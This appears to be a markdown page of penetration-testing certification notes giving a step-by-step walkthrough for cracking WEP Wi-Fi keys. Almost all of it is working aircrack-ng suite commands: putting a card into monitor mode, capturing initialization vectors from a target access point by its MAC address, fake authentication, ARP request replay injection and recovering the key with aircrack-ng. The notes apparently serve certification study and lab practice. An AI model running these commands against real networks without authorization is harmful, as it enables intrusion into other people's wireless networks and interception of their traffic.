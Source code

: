 ## Cracking WEP

## Perform the following steps prior to step 1, if you're wireless card is giving you issues.

* Stop network manager
````
service network-manager stop
````

* When putting a card into monitor mode, it will automatically check for interfering processes. It can also be done manually by running the following command:
````
airmon-ng check
````

* Kill interferring processes
````
airmon-ng check kill **OR** airmon-ng check kill-all
````

* If started already...disable Monitor Mode
````
airmon-ng stop wlan0mo
````

* Restart Network Manager(s)
````
service network-manager start
````

**1) List All Available Wireless Interace Cards**

* You can do this with two commands: iwconfig or airmon-ng

![](https://github.com/azul-007/Pentesting/blob/master/Wireless/images/list_interfaces.png)

**2) Enable monitor mode on the interace found in step 1**

* Identify the channel of the target AP, 
````
airmon-ng start wlan0
sudo airodump-ng wlan0mon <- Identify AP channel here
sudo airodump-ng stop wlan0mon
sudo airmon-ng start wlan0 3
````

![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch8_Wireless_and_RF_Attacks/images/monitor_mode_channel.png.png)

**3) Identify the channel your WEP network is operating on**

* execute iwconfig or airmon-ng to get your wireless interface
* use either BSSID or ESSID.
* The channel number will be listed under the "CH" column.
````
airodump-ng wlan0mon
````
![](https://github.com/azul-007/Pentesting/blob/master/Wireless/images/identify_channel.png)

* Take not of the the MAC, channel and network name of the target AP.
* Test wireless device packet injection.
* If you receive "Injection is working! proceed, else, ensure you're using a compatible wireless card.

**4) Test Packet Injection**
````
aireplay-ng -9 -e <network name> -a <target MAC> <interface>
````

**5) Capture IVs from the AP**
````
airodump-ng -c 3 --bssid D8:0D:17:81:3F:CC -w target_iphone wlan0mon
````

![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch8_Wireless_and_RF_Attacks/images/capture_iv.png)

**6) Initiate Fake Authentication**
* Do this step concurrently with the step 5 to capture all the data you have replayed.
````
sudo aireplay-ng -1 0 -e lab -a D8:0D:17:81:3F:CC -h 84:AD:8D:EC:7E:8D wlan0mon
````
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch8_Wireless_and_RF_Attacks/images/fake_authentication.png)

**7) Start aireplay in ARP request replay mode**
* When the program identifies an ARP request, it will immediately strat to inject it.
````
aireplay-ng -3 -b <target MAC> -h <wireless MAC> <interface>
````

**8) Crack the WEP key**
````
aircrack-ng -b <target MAC> file_output.cap
````
